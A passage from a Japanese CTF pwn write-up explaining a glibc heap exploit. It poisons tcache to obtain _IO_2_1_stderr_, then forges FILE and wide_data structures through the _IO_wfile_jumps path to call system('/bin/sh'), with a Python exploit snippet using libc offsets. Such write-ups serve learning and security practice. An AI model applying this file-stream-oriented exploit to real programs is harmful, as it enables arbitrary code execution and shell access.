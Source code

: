 ![5](https://storage.googleapis.com/zenn-user-upload/fa8d3904ff75-20230503.png)

その後getstr関数の実行によりtcahce(0x20)に&_IO_2_1_stderr_が入る。

![6](https://storage.googleapis.com/zenn-user-upload/4db0a28b4cdf-20230503.png)

次のaligned_allocで0x20バイト要求すれば今tcache(0x20)に入れたアドレス、即ち&_IO_2_1_stderr_が返るので_IO_2_1_stderr_を改竄できる。満たすべき条件は以下だった。
```
- fp->_mode > 0 かつ fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base
- f->_flags & _IO_NO_WRITES(=0x8) == 0
- (f->_flags & _IO_CURRENTLY_PUTTING(=0x800)) == 0
- fp->_flags & _IO_UNBUFFERED(=0x0x0002) == 0
- f->_wide_data->_IO_write_base == 0
```
条件を満たしつつshellを起動するためには各メンバを以下のようにセットすればよい。
```
- stderr->_flags = "  /bin/sh\0"(先頭にSP2個)
- stderr->_mode = 1
- stderr->_wide_data = &_IO_2_1_stdout
- stderr->vtable = &_IO_wfile_jumps
- stderr->_wide_data->_IO_write_base == 0
- stderr->_wide_data->_IO_write_ptr = 1
- stderr->_wide_data->_wide_vtable = &_IO_2_1_stdout
- (struct _IO_jump_t *)stderr->__overflow = &system
```
stderrの先頭には"/bin/sh\0"を置く必要があるがこの部分は_flagsなので条件を満たすために二つのSP(=0x20)をいれている。stderr->_wide_dataとstderr->_wide_data->_wide_vtableを&_IO_2_1_stdoutにしているところがポイント。_IO_2_1_stdoutは_IO_2_1_stderrのすぐ後ろの領域なのでこれにより一度の書き込みで済む。これが上手くいくのは問題ファイルで入出力にread/writeが使われているためであることに注意。exploitは以下のようになる。
```python: exploit.py
stdout = stderr + 0xe0
system = libc_base + 0x50d60
wfile_jumps = libc_base + 0x2160c0

# fake _IO_FILE_plus struct
fake_file = b'  /bin/sh\0' # _flags
fake_file = fake_file.ljust(0xa0, b'\0')
fake_file += pack(stdout) # _wide_data
fake_file = fake_file.ljust(0xc0, b'\0')
fake_file += p32(1) # _mode
fake_file = fake_file.ljust(0xd8, b'\0')
fake_file += pack(wfile_jumps) # vtable

# fake _IO_wide_data & _IO_jump_t struct
fake_wide_data = pack(0) * 4
fake_wide_data += pack(1) # _IO_write_ptr
fake_wide_data = fake_wide_data.ljust(0x8 * 13, b'\0')
fake_wide_data += pack(system) # __doallocate
fake_wide_data = fake_wide_data.ljust(0xe0, b'\0')
fake_wide_data += pack(stdout)

create(4, 0, 0, fake_file + fake_wide_data)
```
このcreateを実行する。aligned_allocの呼び出しにより&_IO_2_1_stderrが返る。
